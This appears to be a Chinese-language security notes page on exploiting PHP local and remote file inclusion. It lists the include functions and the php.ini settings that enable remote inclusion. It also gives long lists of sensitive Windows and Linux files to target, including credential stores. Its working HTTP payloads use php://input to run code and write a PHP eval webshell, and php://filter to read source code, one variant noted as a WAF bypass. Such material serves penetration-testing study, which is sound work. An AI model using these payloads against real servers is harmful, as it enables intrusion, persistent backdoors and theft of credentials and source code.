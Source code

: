 ```yaml
---
title: "PHP文件包含利用"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:38:42+08:00
draft: false
---
```


## 介绍 {#介绍}

文件包含的相关函数：

1.  include()
2.  include_once()
3.  require()
4.  require_once()

include 函数如果出错仍会执行后续代码，但 require 函数出错则程序中止，xxx_once 函数表
示只包含目标文件一次，避免函数重定义和变量覆盖问题

文件包含分为本地文件包含（LFI）和远程文件包含（RFI）两类，RFI 需要在 php.ini 文件中
配置：

```nil
allow_url_fopen = On
allow_url_include = On
```

Windows 敏感文件：

```nil
c:/boot.ini //查看系统版本
c:/windows/php.ini //php配置信息
c:/windows/my.ini //MYSQL配置文件，记录管理员登陆过的MYSQL用户名和密码
c:/winnt/php.ini
c:/winnt/my.ini
C:\Windows\win.ini  //用于保存系统配置文件
c:\mysql\data\mysql\user.MYD //存储了mysql.user表中的数据库连接密码
c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini //存储了虚拟主机网站路径和密码
c:\Program Files\Serv-U\ServUDaemon.ini
c:\windows\system32\inetsrv\MetaBase.xml 查看IIS的虚拟主机配置
c:\windows\repair\sam //存储了WINDOWS系统初次安装的密码
c:\Program Files\ Serv-U\ServUAdmin.exe //6.0版本以前的serv-u管理员密码存储于此
c:\Program Files\RhinoSoft.com\ServUDaemon.exe
C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\*.cif //存储了pcAnywhere的登陆密码
c:\Program Files\Apache Group\Apache\conf\httpd.conf 或C:\apache\conf\httpd.conf //查看WINDOWS系统apache文件
c:/Resin-3.0.14/conf/resin.conf //查看jsp开发的网站 resin文件配置信息.
c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机
d:\APACHE\Apache2\conf\httpd.conf
C:\Program Files\mysql\my.ini
C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码
```

Lunix/Unix 敏感文件：

```nil
/usr/local/app/apache2/conf/httpd.conf //apache2缺省配置文件
/usr/local/apache2/conf/httpd.conf
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
/usr/local/app/php5/lib/php.ini //PHP相关设置
/etc/sysconfig/iptables //从中得到防火墙规则策略
/etc/httpd/conf/httpd.conf // apache配置文件
/etc/rsyncd.conf //同步程序配置文件
/etc/my.cnf //mysql的配置文件
/etc/redhat-release //系统版本
/etc/issue
/etc/issue.net
/usr/local/app/php5/lib/php.ini //PHP相关设置
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf 查看linux APACHE虚拟主机配置文件
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
/usr/local/resin-pro-3.0.22/conf/resin.conf 同上
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
/usr/local/resin-pro-3.0.22/conf/resin.conf 同上
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
/etc/sysconfig/iptables 查看防火墙策略
```


## PHP 伪协议 {#php-伪协议}


### php://input {#php-input}

可以访问请求的原始数据的只读流，即可以直接读取到 POST 中没有经过解析的原始数据

要求 `allow_url_include = On`

```restclient
POST http://localhost/fileinclude.php?file=php://input

<?php phpinfo(); ?>
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 1:</span>
  demo1
</div>

```restclient
POST http://localhost/fileinclude.php?file=php://input

<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[v])?>');?>
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 2:</span>
  demo2-写shell
</div>


### php://filter {#php-filter}

元封装器，设计用于“数据流打开”时的“筛选过滤”应用，对本地磁盘文件进行读写

```restclient
GET http://localhost/fileinclude.php?file=php://filter/read=convert.base64-encode/resource=index.php
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 3:</span>
  demo1
</div>

```restclient
# 少了read关键字，绕waf时可以尝试
GET http://localhost/fileinclude.php?file=php://filter/convert.base64-encode/resource=index.php
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 4:</span>
  demo2
</div>
